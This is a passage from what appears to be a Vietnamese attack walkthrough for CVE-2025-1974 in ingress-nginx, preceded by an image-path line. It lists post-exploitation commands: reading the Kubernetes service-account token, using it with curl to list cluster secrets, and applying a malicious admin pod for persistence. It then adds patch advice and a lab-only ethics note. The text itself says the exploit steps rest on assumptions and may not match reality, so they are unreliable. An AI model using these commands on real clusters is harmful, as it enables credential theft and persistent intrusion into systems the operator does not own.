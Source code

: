         ```plaintext
        cat /run/secrets/kubernetes.io/serviceaccount/token
        ```
        
    * Sử dụng token này để gọi API Kubernetes:
        
        ```plaintext
        curl -H "Authorization: Bearer <token>" https://kubernetes.default.svc/api/v1/namespaces/default/secrets
        ```
        
    * Tạo Pod mới với quyền quản trị để duy trì quyền truy cập:
        
        ```plaintext
        kubectl apply -f malicious-pod.yaml
        ```
        

---

### **Lưu ý quan trọng**

* **Tính khả thi**: Các bước trên dựa trên giả định về cách CVE-2025-1974 hoạt động (tiêm cấu hình qua `ssl_engine` và client-body buffer). Chi tiết thực tế (như đường dẫn tệp hoặc cơ chế xác thực webhook) có thể khác, đòi hỏi thử nghiệm thêm.
    
* **Phòng ngừa**: Nâng cấp ingress-nginx lên phiên bản đã vá (1.11.5 hoặc 1.12.1) hoặc tắt Validating Admission Controller để ngăn chặn.
    
* **Đạo đức**: Chỉ thực hiện trên cụm bạn sở hữu hoặc được phép kiểm tra (ví dụ: môi trường lab).